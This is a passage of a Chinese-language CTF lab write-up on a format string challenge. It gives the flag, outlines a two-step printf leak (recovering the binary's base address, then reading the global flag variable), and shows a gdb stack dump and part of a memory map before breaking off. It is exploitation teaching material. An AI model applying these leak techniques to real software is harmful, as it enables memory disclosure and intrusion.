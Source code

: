 ## Lab-FMT
Flag: `flag{www.youtube.com/watch?v=Ci_zad39Uhw}`

### 解題流程與思路
這一題和之前寫過的FMT題目大同小異，不過有加入%s的觀念在裡面，可以先參考[PicoCTF - flag leak](https://hackmd.io/@SBK6401/ByE7M6djn)
1. 首先題目會讀取`/home/chal/flag.txt`並寫入到global variable - flag中，所以目標很明確，就是要利用兩次的printf的format string bug讀取到flag，而為甚麼要兩次呢?第一次就是要leak出bss section的base address，或是可以說text section的base address，第二次就是利用該結果實際leak出flag的內容
2. Leak Global Variable的base address
    首先直接用gdb跟一下跑到輸入的時候stack上的殘留值
    ```
    0x00007fffffffd640│+0x0000: 0x00000000000c0000   ← $rsp
    0x00007fffffffd648│+0x0008: 0xffffffff00000008
    0x00007fffffffd650│+0x0010: "aaaabbbb\n"         ← $rsi
    0x00007fffffffd658│+0x0018: 0x000000000000000a ("\n"?)
    0x00007fffffffd660│+0x0020: 0x0000000000000040 ("@"?)
    0x00007fffffffd668│+0x0028: 0x0000000000000010
    0x00007fffffffd670│+0x0030: 0x0000000000000000
    0x00007fffffffd678│+0x0038: 0x0000000100000000
    0x00007fffffffd680│+0x0040: 0x0000000000000002
    0x00007fffffffd688│+0x0048: 0x8000000000000006
    0x00007fffffffd690│+0x0050: 0x0000000000000000
    0x00007fffffffd698│+0x0058: 0x0000000000000000
    0x00007fffffffd6a0│+0x0060: 0x0000000000000000
    0x00007fffffffd6a8│+0x0068: 0x0000000000000000
    0x00007fffffffd6b0│+0x0070: 0x0000000000000000
    0x00007fffffffd6b8│+0x0078: 0x0000000000000000
    0x00007fffffffd6c0│+0x0080: 0x0000000000000000
    0x00007fffffffd6c8│+0x0088: 0x0000000000000000
    0x00007fffffffd6d0│+0x0090: 0x0000000000000000
    0x00007fffffffd6d8│+0x0098: 0x00007ffff7fe48e0  →  <dl_main+0> endbr64
    0x00007fffffffd6e0│+0x00a0: 0x000000000000000d ("\r"?)
    0x00007fffffffd6e8│+0x00a8: 0x0000000000000001
    0x00007fffffffd6f0│+0x00b0: 0x0000000000000001
    0x00007fffffffd6f8│+0x00b8: 0x0000000000000001
    0x00007fffffffd700│+0x00c0: 0x0000555555554040  →   (bad)
    0x00007fffffffd708│+0x00c8: 0x00007ffff7fe283c  →  <_dl_sysdep_start+1020> mov rax, QWORD PTR [rsp+0x58]
    0x00007fffffffd710│+0x00d0: 0x00000000000006f0
    0x00007fffffffd718│+0x00d8: 0x00007fffffffdbc9  →  0xb6a8e220a241e577
    0x00007fffffffd720│+0x00e0: 0x00007ffff7fc1000  →  0x00010102464c457f
    0x00007fffffffd728│+0x00e8: 0x0000010101000000
    0x00007fffffffd730│+0x00f0: 0x0000000000000002
    0x00007fffffffd738│+0x00f8: 0x000000001f8bfbff
    0x00007fffffffd740│+0x0100: 0x00007fffffffdbd9  →  0x000034365f363878 ("x86_64"?)
    0x00007fffffffd748│+0x0108: 0x0000000000000064 ("d"?)
    0x00007fffffffd750│+0x0110: 0x0000000000001000
    0x00007fffffffd758│+0x0118: 0xb6a8e220a241e500
    0x00007fffffffd760│+0x0120: 0x0000000000000001   ← $rbp
    0x00007fffffffd768│+0x0128: 0x00007ffff7db7d90  →  <__libc_start_call_main+128> mov edi, eax
    0x00007fffffffd770│+0x0130: 0x0000000000000000
    0x00007fffffffd778│+0x0138: 0x00005555555551e9  →  <main+0> endbr64
    ```
    可以看到最後一個數值就是text段的殘留值，而且距離輸入的地方有一點距離(0x138)所以應該不會被蓋到。
    接著查看vmmap的分布就可以知道他的offset為多少
    ```
    [ Legend:  Code | Heap | Stack ]
    Start              End                Offset             Perm Path
    0x0000555555554000 0x0000555555555000 0x0000000000000000 r-- /mnt/d/NTU/Second Year/Computer Security/PWN/Lab2/lab_fmt_leak/share/chal
    0x0000555555555000 0x0000555555556000 0x0000000000001000 r-x /mnt/d/NTU/Second Year/Computer Security/PWN/Lab2/lab_fmt_leak/share/chal